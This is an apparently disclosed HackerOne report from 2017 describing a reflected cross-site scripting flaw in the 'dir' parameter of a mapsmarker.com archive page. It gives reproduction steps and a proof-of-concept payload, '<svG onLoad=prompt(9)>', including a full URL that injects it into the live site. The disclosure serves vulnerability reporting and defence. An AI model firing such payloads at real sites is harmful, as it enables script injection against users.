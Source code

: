 # Cross-site Scripting (XSS) in /updates-pro/archive/

## Report Details
- **Report ID**: 235866
- **URL**: https://hackerone.com/reports/235866
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2017-06-02T16:44:21.806Z
- **Disclosed**: 2017-07-02T23:03:38.633Z

## Reporter
- **Username**: paulochoupina
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mapsmarker_com_e_u

## Vulnerability Information
Hey guys.
The dir parameter on /updates-pro/archive/ seems to be vulnerable to Cross-site Scripting.

Steps to reproduce:
1- Navigate to: https://www.mapsmarker.com/updates-pro/archive/?dir=v3.0.1
2- Add this to the url: <svG onLoad=prompt(9)>
3- Result in attached printsceen.

Or quite simple visit:
https://www.mapsmarker.com/updates-pro/archive/?dir=v3.0.1%3CsvG%20onLoad=prompt(1)%3E

## Attachments
- xss.png

